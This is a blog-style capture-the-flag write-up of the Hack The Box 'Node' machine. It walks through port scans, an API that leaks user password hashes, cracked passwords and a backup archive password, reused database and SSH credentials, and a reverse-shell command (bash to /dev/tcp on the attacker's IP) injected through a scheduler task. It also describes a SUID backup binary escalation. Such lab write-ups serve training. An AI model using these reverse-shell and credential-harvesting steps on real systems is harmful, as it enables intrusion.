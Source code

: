 Title: HTB Node box writeup
Tags: oscp, htb
Summary: Walkthrough for this one
Date: 2020-09-27 22:00
Status: published

# Enumeration
nmap sS all range:
<pre>
    Nmap 7.80 scan initiated Fri Sep 25 19:13:46 2020 as: nmap -sS -p- -oA enum/nmap-sS-all 10.10.10.58
    Nmap scan report for node.htb (10.10.10.58)
    Host is up (0.059s latency).
    Not shown: 65533 filtered ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    3000/tcp open  ppp
    Nmap done at Fri Sep 25 19:15:45 2020 -- 1 IP address (1 host up) scanned in 119.96 seconds
</pre>
Scripted scan of these:
<pre>
    Nmap 7.80 scan initiated Fri Sep 25 19:18:55 2020 as: nmap -sC -A -T4 -p22,3000 -oA enum/nmap-sCAT4-open 10.10.10.58
    Nmap scan report for node.htb (10.10.10.58)
    Host is up (0.056s latency).
    PORT     STATE SERVICE            VERSION
    22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
    |   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
    |_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
    3000/tcp open  hadoop-tasktracker Apache Hadoop
    | hadoop-datanode-info: 
    |_  Logs: /login
    | hadoop-tasktracker-info: 
    |_  Logs: /login
    |_http-title: MyPlace
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    TRACEROUTE (using port 22/tcp)
    HOP RTT      ADDRESS
    1   55.65 ms 10.10.14.1
    2   57.76 ms node.htb (10.10.10.58)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Fri Sep 25 19:19:14 2020 -- 1 IP address (1 host up) scanned in 18.92 seconds
</pre>
Also tried to scan top 1000 UDP ports, but nothing seems to be available there.
Whatweb told that about the website at 3000:
<pre>
    http://node.htb:3000 [200 OK] Bootstrap
    Country[RESERVED][ZZ]
    HTML5, IP[10.10.10.58]
    JQuery, Script[text/javascript]
    Title[MyPlace]
    X-Powered-By[Express]
    X-UA-Compatible[IE=edge]
</pre>
Looks like web API exposes some interesting info about users:

![mark info](/cstatic/htb-node/api-mark.png)

GET request to `/api/users` will reveal all the available users info. Response:
```json
[
   {
      "_id":"59a7365b98aa325cc03ee51c",
      "username":"myP14ceAdm1nAcc0uNT",
      "password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
      "is_admin":true
   },
   {
      "_id":"59a7368398aa325cc03ee51d",
      "username":"tom",
      "password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
      "is_admin":false
   },
   {
      "_id":"59a7368e98aa325cc03ee51e",
      "username":"mark",
      "password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
      "is_admin":false
   },
   {
      "_id":"59aa9781cced6f1d1490fce9",
      "username":"rastating",
      "password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
      "is_admin":false
   }
]
```
Some non-privileges user passwords are:
<pre>
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240:spongebob
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73:snowflake
</pre>

# Exploitation
The hash for `myP14ceAdm1nAcc0uNT` account is 'googlable' and maps to `manchester`.
These credentials allow to download some `myplace.backup` which is a password-protected 
ZIP archive encoded in base64. Password was almost immediately cracked with rockyou -
`magicword`. Within is likely the code for the hosted application, a node.js app.
Here's the `package.json`:
```json
{
    "name": "myplace",
    "description": "A secure place to meet new people.",
    "version": "1.0.0",
    "private": true,
    "dependencies": {
        "express": "4.15.x",
        "express-session": "1.15.x",
        "body-parser": "1.17.x",
        "mongodb": "2.2.x"
    }
}
```
Noticed creds for mongo instance: `mark:5AYRft73VtFpc84k@localhost:27017` in app.js.
They work for SSH and we're in:

![mark shell](/cstatic/htb-node/mark-shell.png)

There is interesting process running running `/var/scheduler/app.js`:

![scheduler js](/cstatic/htb-node/scheduler-js.png)

Looks like it's a way to execute code as tom:
```javascript
iconst exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
```

So to get tom's shell it's only necessary to insert proper document into the
`scheduler` collection, in this manner: `db.tasks.insert({cmd: '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.9/443 0>&1"'})`.
The shell:

![tom shell](/cstatic/htb-node/unpriv-shell.png)

# Privilege escalation
I tried to find files that owned by `admin` group and stumbled upon `/usr/local/bin/backup`
which is also used in MyPlace app to generate source code mirror. Interesting part is that this
binary has suid bit set and owned by root. The executable looks to be custom and has some calls
to the os shell within. It uses `zip` utility:

![zip util str](/cstatic/htb-node/zip-invocation.png)

And after some sanity checks on input it just invokes this, using passed command line parameter
as the part of the command line for zip utility:

![system-invocation](/cstatic/htb-node/system-invocation.png)

However, sanity checks are not thorough enough and may be bypassed to acquire root shell:

![root shell](/cstatic/htb-node/root-shell.png)

The main lesson here was to look at the very detail found, because I overlooked `backup`
utility at first, despite that I found it quite quickly while performing user groups enumeration.
